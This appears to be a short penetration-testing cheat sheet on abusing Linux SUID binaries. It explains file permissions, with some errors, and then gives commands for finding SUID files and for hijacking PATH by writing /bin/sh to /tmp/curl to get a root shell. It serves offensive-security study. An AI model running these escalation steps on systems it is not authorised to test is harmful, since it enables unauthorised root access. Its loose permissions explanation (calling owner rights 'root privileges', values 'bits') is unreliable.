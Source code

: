 Abusing SUID

**Permissions Basics**

Permissions on folders and files are broken up into 4 categories when viewing a listing “ls -la”.

example of the sections broken apart:
- rwx rwx rwx (file,read write execute,read write execute,read write execute)

example of what may be seen in an actual listing:
-rwxr-xr-- (file,read write execute,read execute, read)

The first section indicates if it is a file or a directory “-” or "d".
The second section indicates root privileges “rwx” or Read, Write, Execute
The third section indicates group privileges “rwx” or Read, Write, Execute
The fourth section indicates all other user privileges “rwx” or Read, Write, Execute

Each section is broken into 7 bits.

The first counter (read) is worth 4 bits
The second counter (write) is worth 2 bits
The third counter (execute) is worth 1 bits

ex. “chmod 777 file.sh” gives rwx for all 3 sections of the file permissions

Locating files with SUID Bits

~~~bash
find / -perm -u=s -type f 2> /dev/null
~~~

After locating files/binaries with the SUID Bit enabled, search GTFOBins for additional/potential escalation points

**SUID Binary Copy and Path Replacement**

This can be useful if you find a binary/script that has root privs that is calling other applications (i.e curl, ifconfig, uname)

Start with locating suid bit binaries/scripts

~~~bash
find / -perm -u=s -type f 2> /dev/null
~~~

ex. /usr/bin/menu

When you run manual, you notice that the outputs for each option give you outputs from other binaries (like in the example above).

Echo /bin/sh into a file and name it one of the binary names that is being called from the menu binary/script

~~~bash
echo /bin/sh > /tmp/curl
~~~

chmod the binary with RWX permissions

~~~bash
chmod 777 /tmp/curl
~~~

Add the binary as a $PATH environment variable

~~~bash
export PATH=/tmp:$PATH
~~~

Re-run the menu binary and select the option that has the binary that you just created the file for and you should now have a root shell

![[Pasted image 20230102132213.png]]
